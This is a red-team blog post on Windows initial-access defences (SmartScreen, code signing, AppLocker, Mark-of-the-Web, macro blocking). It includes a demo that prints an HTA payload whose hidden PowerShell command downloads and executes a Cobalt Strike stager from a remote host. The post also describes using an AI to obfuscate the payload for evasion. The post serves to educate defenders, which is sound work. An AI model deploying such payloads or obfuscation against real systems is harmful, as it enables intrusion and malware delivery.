Based on the data from the [Cyber Security Breaches Survey 2024](https://www.gov.uk/government/statistics/cyber-security-breaches-survey-2024/cyber-security-breaches-survey-2024), phishing with malicious links or malware remains the most common initial access vector, followed by impersonation. The challenge with impersonation attacks is that current technology often struggles to accurately determine the purpose of a website. Although checks on domain maturity, reputation, categorization, and certificates are performed, a skilled adversary can still create sophisticated phishing infrastructure that hosts malware. This allows them to establish a foothold within a network and gain initial access, despite various defences.

[Initial access](https://attack.mitre.org/tactics/TA0108/) is a set of techniques that exploit different entry points to gain an initial foothold in an organisation's network. There are several initial access techniques that can include various social engineering methodologies and exploitation methods, for example misconfigured web servers i.e. instance of Apache Tomcat or exposed management services, i.e. Remote Desktop Protocol on port 3389. It can also include a trusted third party compromise where direct access is gained from captured credentials or a device.

 Figure 1: Visual representation of cyber kill chain.

The initial exploitation can be long-term or limited based on the method of entry and reason for exploitation. Once the adversary gets a foothold within the network, the attack execution is carried out, where the adversary tries to run malicious code, explore the network, or steal confidential data. This in itself has also become a lucrative business, as IAB's (Initial Access Brokers) have specialised in doing just that, gaining the access to the networks and then selling it to other threat actors as it becomes significantly harder from year to year.

Fortunately, there are safeguards in place that protect organisations and users from adversaries, making initial access significantly more challenging when a defense-in-depth strategy is properly implemented. This is a stark contrast to the threat landscape of 10-15 years ago. Also on the other side, we frequently hear major news about vulnerabilities, bypasses, and exploitation of these control technologies that are our very . For example, just last week, a Windows SmartScreen vulnerability was discovered and exploited to deploy malware in the wild, as reported in this [article](https://www.techradar.com/pro/security/microsoft-smartscreen-vulnerability-can-be-abused-to-deploy-malware-and-its-happening-in-the-wild).

# What prevents Initial Access?

As previously mentioned, adversaries now face significant challenges in gaining initial access to systems and networks. These challenges arise from a multi-layered cybersecurity approach that employs advanced technologies and best practices. Given that most of our clients at JUMPSEC rely on Windows and Active Directory, I'll highlight technology examples specific to that environment.

Here are some key technologies that effectively thwart less sophisticated initial access attempts:

### Windows SmartScreen

 Figure 2: Upon execution of an unknown binary, SmartScreen popup will appear.

Windows SmartScreen was originally launched with Windows 8, which was released on October 26, 2012, and is intended to protect users from numerous online risks and has been proven to be effective against less sophisticated adversaries. It works by checking the following upon execution:

- Is the signature of that binary a known malware
- Is the binary signed
- Is the certificate signing authority known and trusted by Microsoft

SmartScreen will display a warning before allowing it to run and potentially detect and prevent malware being run on the system.

Adversaries employ various methods to bypass these measures. One such tactic involves exploiting Windows' inherent trust in binaries - wink wink DLL Side Loading, but delving into this topic merits another blog post. In contrast to SmartScreen, which primarily assesses the reputation of the entry point program, Windows 11’s Smart App Control takes a more comprehensive approach. It verifies the integrity and digital signatures of all code (including DLLs, scripts, etc.) loaded by the Windows OS Loader and script engines to enhance security measures.

### Signature verification

Microsoft's Authenticode technology allows software publishers to use X.509 code-signing certificates to sign their software. These certificates verify the identity of the software publisher to ensure that the software remains unchanged since it was signed by the original issuer.

Microsoft does not verify the publisher's identity or the integrity of the code directly. Instead, it relies on a robust Public Key Cryptography (PKI) system which enables a third-party certificate authority, such as Sectigo (formerly Comodo CA), to authenticate the publisher and hash the code.

 Figure 3: UAC Prompt will notify users in both cases where the publisher is known and unknown.

With Microsoft Authenticode, various types of Windows executables and code can be signed, including _.exe_, _.cab_, _.dll_, _.ocx_, and _.xpi_ files, in both 32-bit and 64-bit user modes.

Authenticode certificates are used to verify and hash both software or code developed by a publisher. Although the certificates are issued by Microsoft, the validation and hashing processes are conducted by a trusted certificate authority (CA) like Sectigo. This ensures that the code comes from a verified source and remains unchanged since its release. Unfortunately, it has been discovered that adversaries are abusing signature verification, as discovered by ([https://symantec-enterprise-blogs.security.com/threat-intelligence/carderbee-software-supply-chain-certificate-abuse](https://symantec-enterprise-blogs.security.com/threat-intelligence/carderbee-software-supply-chain-certificate-abuse)). The APT called Carderbee was able to get Microsoft to digitally sign a type of malware known as a rootkit. To gain that level of access without alerting end-point security systems and other defences, the Carderbee hackers required their rootkit to receive Microsoft approval, which it did after Microsoft signed it.

### Application Allowlisting and Blocklisting

 Figure 4: Applocker Popup.

Application allowlisting ensures that only authorised software can execute, while blocking all unauthorised software from running on your assets. This prevents malicious or unapproved applications from potentially compromising the system. The application allowlisting software must verify that only authorised software libraries (such as _.dll,_ .ocx, etc.) are permitted to load into system processes. This helps to maintain the integrity of your system by preventing unauthorised code from being injected.

In Windows environments, specifically in Active Directory we can utilise group policies, Applocker or something stricter like Windows Defender Application Control to maintain and enforce control policies over applications and binaries.

### Mark-Of-The-Web (MOTW)

Mark-of-the-Web (MOTW) is a security feature originally introduced in Internet Explorer to ensure that saved web pages and other downloaded files run in the security zone corresponding to their origin. It was accomplished by appending to saved webpages and was later extended to support other file types using Alternate Data  Streams (ADS), which is a feature of NTFS file system that dates back to Windows 3.1.

This feature allows files to have multiple data streams associated with them, by using the `|filename:streamname` format. It also applies to MS Office, and other programs by utilising `|AttachmentExecuteInterface`.

So when we have downloaded the file, Internet Explorer creates an ADS named `Zone.Identifier` and adds a `ZoneID` to the stream in order to indicate a zone that file comes from.

In ADS, we have the following ZoneID values and their representations:

0. Local computer
1. Local intranet
2. Trusted sites
3. Internet
4. Restricted sites

 Figure 5: ADS created on downloaded file.

As we can see in the figure above, all modern Windows platforms that are dealing with downloaded files or attachments will generate a `Zone.Identifier` in ADS stream, adding URL information such as Referrer and Host information in addition to the zone. This information can be used to enhance antivirus and various endpoint detection and response (EDR) products to aid the reputation checks of the file.

Mark-of-the-Web (MotW) nowadays serves as a barrier to successful phishing attacks by giving users the option to decline execution. It also collaborates with SmartScreen, enabling access to the registered antivirus engine to perform additional checks on signatures and reputation. Nevertheless, adversaries can circumvent these protections as they might deliver a phishing attachment that evades supplementary prompts or inspections.

Alternatively, they could create a malicious extension that closely resembles legitimate content, tricking victims into inadvertently providing initial access.

### Office Security Controls

 Figure 6: Macro security controls.

Macros have been a favoured initial access method for threat actors since the early days, persisting as one of the longest-enduring challenges in the industry. One notable event was usage of the macro in the [Vawtrak](https://www.acronis.com/en-gb/cyber-protection-center/posts/vawtrak-a-banking-trojan-with-a-long-history/) malware campaign, discovered in 2014 and was used to spread and steal credentials in the Bank of America attack. Microsoft is trying to battle macro malware by enforcing Mark-of-the-Web (MotW) control on macro-enabled documents. Microsoft’s [documentation](https://learn.microsoft.com/en-us/deployoffice/security/internet-macros-blocked) states:

> VBA macros are a common way for malicious actors to gain access to deploy malware and ransomware. Therefore, to help improve security in Office, we’re changing the default behavior of Office applications to block macros in files from the internet.

Blocking macros serves a dual purpose: it reduces the potential for attacks and raises the complexity needed to execute them, especially since email remains the primary method for delivering malware.

 Figure 7: Upon document execution a macro popup will appear.

Therefore, we can assert that the threat landscape can be divided into Pre-Macro and Post-Macro eras, as threat actors have swiftly adapted by moving away from macro-based malware to utilising utilities such as OneNote files with .one and .onepkg extensions. This shift has been identified by security researchers as a significant evolution in the email threat landscape in recent history. With that in mind, the following section of the post will introduce different techniques that adversaries are employing in order to facilitate initial access and bypass previously mentioned security measures.

## Initial Access Demo

To achieve initial access, adversaries often require some form of user interaction to execute their kill-chain. For this blog post, let's assume that we are the end-user who has received an email link that successfully bypassed email filters (for more on this, see our blog post on automated smuggling techniques by our red team operator [Francesco](https://labs.jumpsec.com/wasm-smuggling-for-initial-access-and-w-a-l-k-tool-release/)). Alternatively, we could have been coerced by an adversary through SaaS applications like Teams (for details on this method, refer to [Max](https://labs.jumpsec.com/advisory-idor-in-microsoft-teams-allows-for-external-tenants-to-introduce-malware/)’s IDOR discovery) to download a binary file.

> Please note, that in this demo, Microsoft Defender was turned off, although normally during engagements, antivirus/EDR bypassing is another process that is undertaken by operators.

In this blog post, we are going to use malicious HTA payloads that are being used by adversaries. HTA (HTML Application) is basically an application whose source consists of HTML, Dynamic HTML, and one or more scripting languages supported by Internet Explorer, such as VBScript or JScript. One caveat with this technique is that it requires Internet Explorer to be installed, otherwise HTA files won't execute on the target computer. It's worth noting that it also runs in **full trust mode** therefore browser security constraints do not apply here.

During execution, it uses mshta.exe which native Windows binary that suits perfectly for modern living of the land ethos and handles further malicious code execution without needing to touch the victims disk. LOLBINS are commonly used by adversaries to execute malicious code and evade EDR/AV solutions as those native binaries are often not picked up given they are used for legitimate sysadmin tasks.

To proceed, we are going to use Cobalt Strike, set up teamserver infrastructure with listeners and use Scripted Web Delivery that will generate stageless beacon payload artefacts that will be handled by our malicious HTA application.

 Figure 8: Configuring a Cobalt Strike Listener and Scripted Web Delivery of our payload.

After that, with truly modern fashion, we are going to politely ask our AI friend to obfuscate it so we can test it out of curiosity against static analysis detection to see how it withstands AV/EDR solutions.

 Figure 9: Prompt that was used to obfuscate our PowerShell command for our .hta payload

Let's compare static analysis detection rates with the non-obfuscated payload, for this we are going to utilise hybrid analysis. This is an excerpt of an example HTA payload below:

```
<html>  
<head>
<title>HTA Payload Demo</title>
</head>  
<body>  
<p>Example Text</p>  
</body>  

<script language="VBScript">  
Function demo()  
Set shell = CreateObject("wscript.Shell")  
shell.run "powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.0.7:8088/a'))""  
End Function  

demo  
</script>  
</html>
```

 

```

```

As we can see in the figure above, we can conclude that with little effort, adversaries can increase their sophistication and attempt to evade some of the detections. In our case we don't need to worry about the AV/EDRs as for demo purposes, we have disabled Windows Defender. But evasion is integrated within the red team craft where we have to tackle each phase of EDR/AV detection, those phases include: Static and Heuristic Analysis, Cloud Reputation Analysis, Sandboxing , Machine Learning Analysis, Emulation and Behavioural Analysis.

For this reason, there are different cyber kill chains, where in order to evade detection of our HTA payload, we could perhaps use ISO containerisation techniques that would evade Mark-of-the-Web, then use HTML smuggling to fly past phishing detections. Then we could utilise a LNK technique, to trick the end-user into clicking our executable that has fully customised shellcode which is additionally loaded using DLL sideloading of legitimate running process. This just shows how complex implementing new undetectable payloads could be, and how many layers of defences have to be taken into consideration.

Back to our initial access demo, now that we have our HTA application on the target machine, let's execute it. What will happen in the background is that our powershell code embedded within that HTA application will fetch our Cobalt Strike stager hosted on our teamserver.

 Figure 11: Execution of the .hta payload and visible .mshta as “HTML Application Host”

 Figure 12: Connection was established as can be seen by our beacon that was executed via the HTA payload.

As demonstrated in the figure above, we have successfully established a connection to our victims' host. From this point forward, we can interact with the beacon, marking just the beginning of our red team engagement. The real challenge lies ahead as we delve into persistence, privilege escalation, lateral movement, and pivoting all of which are significant undertakings given the capabilities of current EDR and AV solutions to emulate real-world adversaries and their techniques.

## Initial Access Prevention Strategies

There are several prevention strategies we recommend implementing, as there is no one-size-fits-all solution due to factors such as complex infrastructure setups, data collection and correlation challenges.

However, we have found that having a robust AV/EDR solution, along with effective patch management, by keeping machines patched and up-to-date against n-day exploits is crucial. Additionally, tightening group policies makes it more difficult for adversaries to navigate and pivot within the network, thereby containing the threat and minimising the "blast radius." Implementing email filters with appropriate thresholds and spam rules is also highly recommended, complementing secure mail configurations for protocols like IMAP, SMTP, or POP.

Furthermore, protecting SaaS applications such as Teams, SharePoint, Exchange Online, or OneDrive through regular configuration reviews is crucial, as these platforms are often targeted for initial access.

Thank you for taking the time to read this blog. I hope you found it informative and enjoyable. Stay tuned for more of our upcoming blog posts and advisories.

## References

- [https://www.gironsec.com/blog/2020/12/bypassing-windows-smartscreen/](https://www.gironsec.com/blog/2020/12/bypassing-windows-smartscreen/)
- [https://redcanary.com/threat-detection-report/techniques/mark-of-the-web-bypass/](https://redcanary.com/threat-detection-report/techniques/mark-of-the-web-bypass/)
- [https://mgeeky.tech/warcon-2022-modern-initial-access-and-evasion-tactics/](https://mgeeky.tech/warcon-2022-modern-initial-access-and-evasion-tactics/)
- [https://www.gov.uk/government/statistics/cyber-security-breaches-survey-2024/cyber-security-breaches-survey-2024](https://www.gov.uk/government/statistics/cyber-security-breaches-survey-2024/cyber-security-breaches-survey-2024)
- [https://www.techradar.com/pro/security/microsoft-smartscreen-vulnerability-can-be-abused-to-deploy-malware-and-its-happening-in-the-wild](https://www.techradar.com/pro/security/microsoft-smartscreen-vulnerability-can-be-abused-to-deploy-malware-and-its-happening-in-the-wild)
- [https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence)
